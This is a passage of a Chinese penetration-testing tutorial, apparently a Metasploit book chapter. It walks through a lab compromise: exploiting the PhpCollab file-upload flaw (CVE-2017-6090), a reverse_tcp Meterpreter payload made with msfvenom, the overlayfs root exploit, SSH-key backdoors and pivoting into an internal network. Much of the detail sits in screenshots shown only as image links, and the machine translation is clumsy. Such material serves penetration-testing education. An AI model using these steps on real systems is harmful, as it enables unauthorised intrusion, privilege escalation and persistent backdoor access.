开始新的渗透测试时，最好将以前扫描的主机及其各自的数据与新的 pentest 分开，这样就不会合并。在开始新的渗透测试之前，我们可以使用`workspace`命令在 Metasploit 中执行此操作，如以下屏幕截图所示：

要添加一个新的工作区，我们可以发出`workspace -a`命令，后跟一个标识符。我们应该保留标识符作为当前正在评估的组织的名称，如以下屏幕截图所示：

我们可以看到，我们已经成功地使用`-a`开关创建了一个新的工作区。让我们切换工作区，只需发出后跟工作区名称的`workspace`命令，如前面的屏幕截图所示。对工作区进行排序后，让我们在目标 IP 上快速执行 Nmap 扫描，看看是否可以在其上运行一些令人兴奋的服务：

坦率地说，扫描结果令人心碎。除端口`80`外，目标上未运行任何服务。

默认情况下，Nmap 仅扫描前 1000 个端口。我们可以使用`-p-`开关扫描所有 65535 端口。

因为我们连接到 Metasploit 数据库，所以我们检查的所有内容都会记录到数据库中。发出`services`命令将填充数据库中所有扫描的服务。另外，让我们使用`-sV`开关通过`db_nmap`执行版本检测扫描，如以下屏幕截图所示：

上一次 Nmap 扫描发现端口`80`并将其记录在数据库中。但是，版本检测扫描发现服务在端口`80`上运行，即 Apache 2.4.7 Web 服务器，找到 MAC 地址、操作系统类型，并更新数据库中的条目，如前一屏幕截图所示。由于获得访问权限需要明确针对特定版本的软件进行准确的攻击，因此最好对版本信息执行双重检查。Metasploit 包含用于 HTTP 版本指纹识别的内置辅助模块。让我们利用它，如下面的屏幕截图所示：

为了启动`http_version`扫描仪模块，我们发出`use`命令，后面跟着模块的路径，在我们的例子中是`auxiliary/scanner/http/http_version`。所有基于扫描的模块都有`RHOSTS`选项，可合并广泛的 IP 地址和子网。但是，由于我们只测试单个 IP 目标，因此我们使用`set`命令为目标 IP 地址指定`RHOSTS`，即`192.168.174.132`。接下来，我们只是使用`run`命令执行模块，如下面的屏幕截图所示：



Apache 的这个版本正是我们在上一次 Nmap 扫描中发现的版本。目标上运行的这个版本的 Apache web 服务器是安全的，并且在漏洞数据库（如`exploit-db.com`和`0day.today`）中不存在任何公开漏洞。因此，我们别无选择，只能在 web 应用中查找漏洞（如果有）。让我们尝试浏览此 IP 地址，看看是否可以找到以下内容：

好我们有一个索引页，但没有内容。让我们利用 Metasploit 中的`dir_scanner`模块来查找一些已知的目录，如下面的屏幕截图所示：



加载`auxiliary/scanner/http/dir_scanner`模块后，我们通过在`DICTIONARY`参数中设置路径，为其提供一个包含已知目录列表的字典文件。此外，我们还可以通过将`THREADS`参数从`1`设置为`20`来增加线程数，从而加快进程。让我们运行模块并分析输出：

单个目录条目之间的空格字符产生了大量误报。然而，我们从一个`phpcollab`目录中得到了 302 响应代码，这表明在尝试访问`phpcollab`目录时，模块得到了重定向（302）的响应。反应很有趣；让我们看看当我们尝试从浏览器打开`phpcollab`目录时得到了什么：



美好的我们有一个基于 PHP 的应用正在运行。因此，我们在 Metasploit 模块中得到了 302 响应。

# 模拟威胁

从情报收集阶段，我们可以看到目标系统上只有端口`80`处于打开状态，并且在其上运行的应用不易受攻击，并且正在其上运行 PhpCollab Web 应用。要访问 PhpCollab 门户，尝试一些随机密码和用户名不会成功。即使搜索 Metasploit，我们也没有 PhpCollab 的模块：

让我们尝试使用[中的`searchsploit`工具搜索 PhpCollabhttps://exploit-db.com/](https://exploit-db.com/) 。searchsploit 允许您轻松搜索当前托管在漏洞利用数据库网站上的所有漏洞利用，因为它维护了所有漏洞利用的脱机副本：



瞧！我们有一个 PhpCollab 的漏洞，好消息是它已经是 Metasploit 漏洞格式。

# 漏洞分析-任意文件上载（未经验证）

PhpCollab 应用无法正确过滤上载文件的内容。因此，未经验证的攻击者有可能上载恶意文件并运行任意代码。

# PhpCollab 2.5.1 应用上的攻击机制

如果攻击者通过在`/clients/editclient.php?id=1&action=update`URL 上发送`POST`请求上传恶意 PHP 文件，应用可能会受到危害。如果请求是否来自经过身份验证的用户，则代码不会验证该请求。问题代码如下：



从第 2 行我们可以看到上传的文件被保存到`logos_clients`目录，名称为`$id`后接`$extention`，这意味着由于我们在 URL 中有`id=1`，上传的后门将被保存为`logos_clients`目录中的`1.php`。

有关此漏洞的更多信息，请参阅：[https://sysdream.com/news/lab/2017-09-29-cve-2017-6090-phpcollab-2-5-1-arbitrary-file-upload-unauthenticated/](https://sysdream.com/news/lab/2017-09-29-cve-2017-6090-phpcollab-2-5-1-arbitrary-file-upload-unauthenticated/) 。

# 利用和获取访问

为了获得对目标的访问权，我们需要将此漏洞复制到 Metasploit 中。但是，不鼓励将外部漏洞直接复制到 Metasploit 的漏洞目录，这是一种不好的做法，因为每次更新都会丢失模块。最好将外部模块保存在通用目录中，而不是 Metasploit 的`modules`目录中。然而，保存模块的最好方法是在系统的其他地方创建一个类似的目录结构，并使用`loadpath`命令加载它。让我们将找到的模块复制到某个目录：



让我们创建目录结构，如以下屏幕截图所示：



我们可以看到，我们在`MyModules`文件夹`modules/exploits/nipun`中创建了一个 Metasploit 友好结构，并将漏洞转移到目录中。让我们将此结构加载到 Metasploit 中，如下所示：

我们已成功将该漏洞加载到 Metasploit 中。让我们使用该模块，如以下屏幕截图所示：

该模块要求我们设置远程主机的地址、远程端口以及 PhpCollab 应用的路径。由于路径（`TARGETURI`和远程端口（`RPORT`已经设置好，我们将`RHOST`设置到目标的 IP 地址，并发出`exploit`命令：

瞧！我们可以进入这个系统。让我们使用一些基本的利用后命令并分析输出，如以下屏幕截图所示：



正如我们在前面的屏幕截图中所看到的，运行`sysinfo`命令可以获取系统的信息，例如计算机名、操作系统、体系结构（64 位版本）和 MeterMeter 版本（基于 PHP 的 MeterMeter）。让我们使用`shell`命令进入受损主机上的系统外壳，如以下屏幕截图所示：



我们可以看到，一旦我们进入一个系统外壳，运行诸如`id`之类的命令，就会向我们提供当前用户正在使用的输入`www-data`，这意味着要获得对该系统的完全控制，我们需要 root 权限。此外，发出`lsb_release -a`命令将输出具有确切版本和代码名的操作系统版本。让我们注意它，因为它需要在获得根访问系统。但是，在我们进入根部分之前，让我们先从系统中获得一些基本信息，例如使用`getpid`命令的当前进程 ID、使用`getuid`命令的当前用户 ID、`uuid`表示唯一用户标识符，以及`machine_id`，这是受损机器的标识符。让我们运行刚才讨论的所有命令并分析输出：

我们得到的信息量非常简单。我们有计量器所在的当前进程的 ID，我们有用户 ID、UUID 和机器 ID。但是，这里需要注意的一点是，我们的访问是基于 PHP MeterMeter 的，而 PHP MeterMeter 的局限性在于我们无法运行特权命令，这些命令可以由更具体的二进制 MeterMeter 外壳（如**反向 TCP**）轻松提供。首先，让我们升级到一个更具体的外壳上，以便更好地接近目标。我们将利用`msfvenom`命令创建恶意负载；然后我们将它上传到目标系统并执行它。让我们开始：



由于我们的主机运行在 64 位体系结构上，我们将使用 64 位版本的 MeterMeter，如前面的屏幕截图所示。MSFvenom 根据我们的需求生成强大的有效负载。我们已经使用`-p`开关指定了有效负载，它正是`linux/x64/meterpreter/reverse_tcp`。此有效负载是 64 位 Linux 兼容的 MeterMeter 有效负载，一旦在受损系统上执行，它将连接回我们的侦听器，并为我们提供对机器的访问。由于有效载荷必须连接回我们，它应该知道连接到哪里。出于这个原因，我们指定了`LHOST`和`LPORT`选项，其中`LHOST`作为侦听器运行的 IP 地址，`LPORT`指定侦听器的端口。我们将在 Linux 机器上使用有效负载。因此，我们将格式（`-f`指定为 elf，这是基于 Linux 的操作系统的默认可执行二进制格式。`-b`选项用于指定可能在通信中遇到问题并可能破坏外壳代码的坏字符。在接下来的章节中，将会有更多关于坏角色及其逃避的信息。最后，我们将有效负载写入`reverse_connect.elf`文件。

接下来，因为我们已经在机器上有了一个 PHP MeterMeter 访问权限，让我们使用`upload`命令上传新创建的有效负载，后面是有效负载的路径，如前面的屏幕截图所示。我们可以通过发出`pwd`命令来验证上传的当前路径，这表示我们正在使用的当前目录。上传的有效负载一旦执行，将连接回我们的系统。然而，我们也需要接收端的一些东西来处理连接。让我们运行一个处理程序来处理传入连接，如以下屏幕截图所示：



我们可以看到，我们使用`background`命令将 PHP MeterMeter 会话推送到后台。让我们使用`exploit/multi/handler`模块，设置`reverse_connect.elf`中使用的相同有效负载、LHOST 和 LPORT，并使用`exploit`命令运行模块。

利用`-j`命令在后台模式下将处理程序作为作业启动，并可以处理多个连接，所有连接都在后台进行。

我们已成功设置处理程序。接下来，我们只需要在目标上执行有效负载文件，如以下屏幕截图所示：

我们可以看到，我们刚刚使用 shell 命令放入了一个 shell。我们使用`pwd`命令检查目标上的当前工作目录。接下来，我们为有效负载文件授予可执行权限，以便执行它，最后，我们在后台使用`&`标识符运行`reverse_connect.elf`可执行文件。前面的屏幕截图显示，只要运行可执行文件，就会向目标系统打开一个新的 MeterMeter 会话。使用`sessions -i`命令，我们可以看到目标上现在有两个流量计：



然而，与 PHP MeterMeter 相比，x64/Linux MeterMeter 显然是一个更好的选择，我们将继续通过这个 MeterMeter 与系统交互，除非我们获得更特权的 MeterMeter。但是，如果出现意外情况，我们可以切换对 PHP MeterMeter 的访问，并像刚才那样重新运行此负载。这里重要的一点是，无论我们在目标上获得了更好的访问类型级别，我们仍然是低特权用户，我们希望改变这一点。Metasploit 框架包含一个名为`local_exploit_suggester`的优秀模块，该模块有助于权限提升。它有一个内置的机制来检查各种本地权限提升攻击，并将建议在目标上使用最佳的方法。我们可以加载此模块，如以下屏幕截图所示：



我们使用`use`命令和模块的绝对路径`post/multi/recon/local_exploit_suggester`加载模块。由于我们希望在目标上使用此漏洞，我们自然会选择更好的 MeterMeter 来路由检查。因此，我们将`SESSION`设置为`2`以将检查路由到`SESSION 2`，这是 x64/Linux MeterMeter 的标识符。让我们运行模块并分析输出：

简直太神奇了！我们可以看到，`suggester`模块声明可以在目标上使用`exploit/linux`目录中的`overlayfs_priv_esc`本地攻击模块来获得根访问权限。然而，我把它作为一个练习留给你们大家来完成。让我们通过在目标系统上下载本地 root 漏洞，编译并执行它以获得目标系统上的 root 访问权限来手动完成这项工作。我们可以从[下载该漏洞 https://www.exploit-db.com/exploits/37292](https://www.exploit-db.com/exploits/37292) 。不过，让我们在下一节中收集有关此漏洞的一些详细信息。

# 使用本地根用户漏洞提升权限

`overlayfs`权限提升漏洞允许本地用户通过利用允许在任意装入的命名空间中使用`overlayfs`的配置来获得根权限。弱点在于`overlayfs`的实现没有正确检查上层文件系统目录中文件创建的权限。

有关该漏洞的更多信息，请参见此处：[https://www.cvedetails.com/cve/cve-2015-1328](https://www.cvedetails.com/cve/cve-2015-1328) 。

让我们进入一个 shell，从[将原始漏洞下载到目标上 https://www.exploit-db.com/](https://www.exploit-db.com/) ：



让我们将漏洞从`37292`重命名为`37292.c`并使用`gcc`进行编译，生成一个可执行文件，如下图所示：

我们可以看到，我们已经成功编译了该漏洞，因此让我们运行它：



答对 了正如我们所见，通过运行漏洞攻击，我们获得了对根 shell 的访问权；这标志着这一制度的彻底妥协。让我们运行一些基本命令并确认我们的身份，如下所示：

记住，我们有一个在后台运行的漏洞处理程序？让我们运行相同的`reverse_connect.elf`文件：

另一个流量计会话已打开！让我们看看这个仪表与其他两个仪表有何不同：



我们可以看到目标系统的第三个米表。然而，UID，即用户 ID，是表示根用户的`0`。因此，此 MeterMeter 以 root 权限运行，可以为我们提供对整个系统的无限制进入。让我们使用后面跟会话标识符的`session -i`命令与会话交互，在本例中为`3`：

我们可以通过`getuid`命令确认根标识，如前面的屏幕截图所示。我们现在拥有了这个系统的完全权威，那么接下来呢？

# 使用 Metasploit 维护访问权限

保持对目标系统的访问是一项理想的功能，特别是当涉及到执法机构或由红色团队测试部署在目标上的防御时。我们可以使用`post/linux/manage`目录中的`sshkey_persistence`模块在 Linux 服务器上通过 Metasploit 实现持久性。此模块添加 SSH 密钥或创建一个新密钥，并将其添加到目标服务器上的所有用户。因此，下次我们想要登录到服务器时，它不会要求我们输入密码，只会允许我们带着密钥进入。让我们看看如何实现这一点：

我们只需要使用 set`SESSION`命令和会话标识符来设置会话标识符。我们将使用具有最高权限级别的会话。因此，我们将使用`3`作为`SESSION`标识符，直接运行模块，如下所示：



我们可以看到，模块创建了一个新的 SSH 密钥，然后将其添加到目标系统上的两个用户，即`root`和`claire`。我们可以通过使用`root`或用户`claire`或两者连接到 SSH 上的目标来验证我们的后门访问，如下所示：

太神了我们可以看到，我们通过使用`-i`选项使用新创建的 SSH 密钥登录到目标系统，如前一屏幕所示。让我们看看是否也可以以用户`claire`的身份登录：



是的！我们可以和两个后门用户一起登录。

大多数服务器不允许 root 登录。因此，您可以编辑`sshd config`文件，将 root 登录更改为`yes`，并在目标上重新启动 SSH 服务。

尝试只对 root 这样的单个用户进行后门，因为默认配置禁止大多数用户通过 root 登录。

# 后期开发和数据透视

无论我们破坏了什么操作系统，Metasploit 都提供了十几个攻击后侦察模块，可以从被破坏的机器上获取 Gig 的数据。让我们使用这样一个模块：

运行`enum_configs`后期开发模块，我们可以看到我们已经收集了目标上存在的所有配置文件。这些配置有助于发现密码、密码模式、有关运行的服务的信息等等。另一个很棒的模块是`enum_system`，它可以收集操作系统相关信息、用户帐户、服务运行、cron 作业运行、磁盘信息、日志文件等信息，如以下屏幕截图所示：



在收集了大量关于目标的详细信息后，现在是开始报告的好时机吗？还没有。优秀的渗透测试人员可以访问系统，获得最高级别的访问权限，并进行分析。然而，一个优秀的渗透测试仪也会这样做，但不会在单个系统上停止。他们将尽其所能潜入内部网络，获得更多的网络访问权（如果允许）。让我们使用一些命令来帮助我们旋转到内部网络。其中一个示例命令是`arp`，它列出了内部网络中的所有签约系统：



我们可以看到在`192.168.116.0`范围内存在一个单独的网络。让我们发出`ifconfig`命令，看看是否有另一个网络适配器连接到受损主机：

是的！我们猜对了还有另一个网络适配器（`Interface 3`），它连接到一个单独的网络范围。但是，当我们尝试从我们的地址范围 ping 或扫描此网络时，我们无法这样做，因为网络无法从我们的 IP 地址访问，这意味着我们需要一种机制，可以通过受损主机本身将数据从系统转发到目标（否则无法访问）范围。我们称这种安排为旋转。因此，我们将通过系统上获得的流量计向目标范围添加一条路由，该范围内的目标系统将我们的受损主机视为源发起人。让我们通过 MeterMeter 向无法到达的范围添加一条路由，如以下屏幕截图所示：

使用`post/multi/manage`目录中的`autoroute`后期开发模块，我们需要在`SUBNET`参数中指定目标范围，并将`SESSION`指定给数据将通过其进行隧道传输的 MeterMeter 的会话标识符。我们可以看到，通过运行模块，我们已经成功地将路由添加到目标范围。让我们从 Metasploit 运行 TCP 端口扫描程序模块，并分析是否可以扫描目标范围内的主机：



我们只需使用`arp`命令在找到的目标上运行`portscanner`模块，即`192.168.116.133`，端口 1-10000 有十个线程，如前一屏幕截图所示：

成功我们可以看到港口`80`是开放的。然而，我们的访问仅限于通过 MeterMeter。我们需要一种机制，在这种机制中，我们可以通过 web 浏览器运行一些外部工具来浏览端口`80`，以了解更多关于在端口`80`上运行的目标应用的信息。Metasploit 提供了一个内置的 socks 代理模块，我们可以运行该模块，并将流量从外部应用路由到目标`192.168.116.133`系统。让我们按如下方式使用此模块：

我们只需要运行驻留在`auxiliary/server`路径上的`socks4a`模块。它将在本地端口`1080`上设置网关，将流量路由到目标系统。代理`127.0.0.1:1080`将通过受损主机转发我们的浏览器流量。但是，对于外部工具，我们需要使用`proxychains`并通过将端口设置为`1080`进行配置。使用`/etc/proxychains.conf`文件可以配置`proxychains`的端口：

